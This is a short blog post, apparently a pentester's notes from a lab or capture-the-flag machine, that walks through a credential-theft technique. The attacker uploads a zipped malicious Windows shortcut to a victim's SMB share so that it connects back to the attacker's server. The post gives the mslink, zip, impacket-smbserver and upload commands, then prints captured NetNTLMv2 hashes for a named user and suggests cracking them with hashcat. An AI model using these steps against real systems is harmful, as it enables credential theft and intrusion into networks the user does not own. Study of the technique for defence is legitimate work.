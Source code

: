 ```yaml
---
layout: post
title: Zipped LNK files over SMB
description: Zipped LNK files over SMB
summary: Zipped LNK files over SMB
tags: [windows,foothold,rce,smb]
minute: 1
---
```

## Overview
Attackers can upload a `.zip` file containing `.lnk` file to a smb share. The `.link` file can contain malicuous code such as connecting back to attacker’s own evil smb share.

Once a victim unzips that file, attacker can intercept the user’s hash.

## Requirements
* SMB share on victim machine that attacker has access

## Steps
* Downlod [mslink](http://www.mamachine.org/mslink/index.en.html). You will use that to create a malicuous link file.
* Create a malicuous link file that will connect to your own evil share.

```bash
~/data/tools/mslink_v1.3.sh -l whatever -n hook -i \\\\10.11.40.33\\share -o hook.lnk
```

* Compress it.

```bash
zip hook.zip hook.lnk
```

* Create an SMB share on your attacker machine

```bash
impacket-smbserver -smb2support share .
```

* Upload the zip file to the SMB share of victim machine.

```
smb: \> put hook.zip
```

* Sit back and enjoy

```bash
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.147.136,50222)
[*] AUTHENTICATE_MESSAGE (SET\MichelleWat,SET)
[*] User SET\MichelleWat authenticated successfully
[*] MichelleWat::SET:aaaaaaaaaaaaaaaa:ca86a1caeea26a1753bd2092bb6bb76a:010100000000000080132f632685d701fdefe7ef95805d14000000000100100045005a004d00730073007000670054000300100045005a004d0073007300700067005400020010006a006400440075005900750043004b00040010006a006400440075005900750043004b000700080080132f632685d70106000400020000000800300030000000000000000000000000200000c55f192792fa477d1dab3770e98ac03ac9505a65cb2137d024633f7e80b04eb20a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310031002e00340030002e00330033000000000000000000
[*] Closing down connection (10.10.147.136,50222)
[*] Remaining connections []
[*] Incoming connection (10.10.147.136,50223)
[*] AUTHENTICATE_MESSAGE (SET\MichelleWat,SET)
[*] User SET\MichelleWat authenticated successfully
[*] MichelleWat::SET:aaaaaaaaaaaaaaaa:3b1d30ff9e5129ad225cc8129e3a9fa5:010100000000000000aac7632685d701b14749bbc7f0a2db000000000100100045005a004d00730073007000670054000300100045005a004d0073007300700067005400020010006a006400440075005900750043004b00040010006a006400440075005900750043004b000700080000aac7632685d70106000400020000000800300030000000000000000000000000200000c55f192792fa477d1dab3770e98ac03ac9505a65cb2137d024633f7e80b04eb20a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310031002e00340030002e00330033000000000000000000
[*] Closing down connection (10.10.147.136,50223)
[*] Remaining connections []
[*] Incoming connection (10.10.147.136,50224)
[*] AUTHENTICATE_MESSAGE (SET\MichelleWat,SET)
[*] User SET\MichelleWat authenticated successfully
[*] MichelleWat::SET:aaaaaaaaaaaaaaaa:39d0e73f4909f98a02f8be457e765a0f:0101000000000000804060642685d701cefc2fd6b5e9dc17000000000100100045005a004d00730073007000670054000300100045005a004d0073007300700067005400020010006a006400440075005900750043004b00040010006a006400440075005900750043004b0007000800804060642685d70106000400020000000800300030000000000000000000000000200000c55f192792fa477d1dab3770e98ac03ac9505a65cb2137d024633f7e80b04eb20a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310031002e00340030002e00330033000000000000000000
[*] Closing down connection (10.10.147.136,50224)
[*] Remaining connections []
```

* You will be able to capture the NLMv2 hashes. You can now use hashcat to crack it.

## Other Info
Here is the script that process the zip files inside smb share.

```batch
@echo off
SET source="C:\Shares\Files"
SET extracted="C:\Shares\extracted"

powershell.exe -NoP -NonI -Command "Expand-Archive '%source%\*.zip' '%extracted%'"
FOR /f "tokens=*" %%G IN ('dir /s /b %extracted%\..\*.') DO (explorer %%G)
	
ping -n 3 127.1>NUL
taskkill /IM explorer.exe
rmdir %extracted% /q /s
del %source%\*.zip -j
```

## References
* [How Attackers are Using LNK Files to Download Malware](https://www.trendmicro.com/en_us/research/17/e/rising-trend-attackers-using-lnk-files-download-malware.html)
